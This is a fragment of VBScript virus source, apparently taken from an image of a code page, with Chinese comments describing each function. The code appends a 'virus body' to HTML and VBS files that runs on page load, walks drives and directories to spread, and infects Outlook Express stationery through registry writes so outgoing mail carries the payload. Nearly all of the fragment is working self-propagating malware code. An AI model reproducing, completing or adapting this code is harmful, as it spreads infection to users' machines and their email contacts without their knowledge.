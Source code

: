 ```vbscript
Set FileTemp = FSO.OpenTextFile(FilePath,8) 
If TypeStr = "html" Then 
FileTemp.Write vbCrLf & "<" & "HTML>" & vbCrLf & "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & HtmlText 
ElseIf TypeStr = "vbs" Then 
FileTemp.Write vbCrLf & VbsText 
End If 
FileTemp.Close 
End If 
End Function 


' 函数：KJChangeSub(CurrentString,LastIndexChar) 
' 功能：改变子目录以及盘符 
' 参数： 
' CurrentString 当前目录 
' LastIndexChar 上一级目录在当前路径中的位置 
Function KJChangeSub(CurrentString,LastIndexChar) 
' 判断是否是根目录 
If LastIndexChar = 0 Then 
' 如果是根目录 
' 如果是C:\，返回FinalyDisk盘，并将SubE置为0， 
' 如果不是C:\，返回将当前盘符递减1，并将SubE置为0 
If Left(LCase(CurrentString),1) =< LCase("c") Then 
KJChangeSub = FinalyDisk & ":\" 
SubE = 0 
Else 
KJChangeSub = Chr(Asc(Left(LCase(CurrentString),1)) - 1) & ":\" 
SubE = 0 
End If 
Else 
' 如果不是根目录，则返回上一级目录名称 
KJChangeSub = Mid(CurrentString,1,LastIndexChar) 
End If 
End Function 


' 函数：KJCreateMail() 
' 功能：感染邮件部分 
Function KJCreateMail() 
On Error Resume Next 
' 如果当前执行文件是"html"的，就退出函数 
If InWhere = "html" Then 
Exit Function 
End If 
' 取系统盘的空白页的路径 
ShareFile = Left(WinPath,3) & "Program Files\Common Files\Microsoft Shared\Stationery\blank.htm" 
' 如果存在这个文件，就向其追加html的病毒体 
' 否则生成含有病毒体的这个文件 
If (FSO.FileExists(ShareFile)) Then 
Call KJAppendTo(ShareFile,"html") 
Else 
Set FileTemp = FSO.OpenTextFile(ShareFile,2,true) 
FileTemp.Write "<" & "HTML>" & vbCrLf & "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & HtmlText 
FileTemp.Close 
End If 
' 取得当前用户的ID和OutLook的版本 
DefaultId = WsShell.RegRead("HKEY_CURRENT_USER\Identities\Default User ID") 
OutLookVersion = WsShell.RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\MediaVer") 
' 激活信纸功能，并感染所有信纸 
WsShell.RegWrite "HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Compose Use Stationery",1,"REG_DWORD" 
```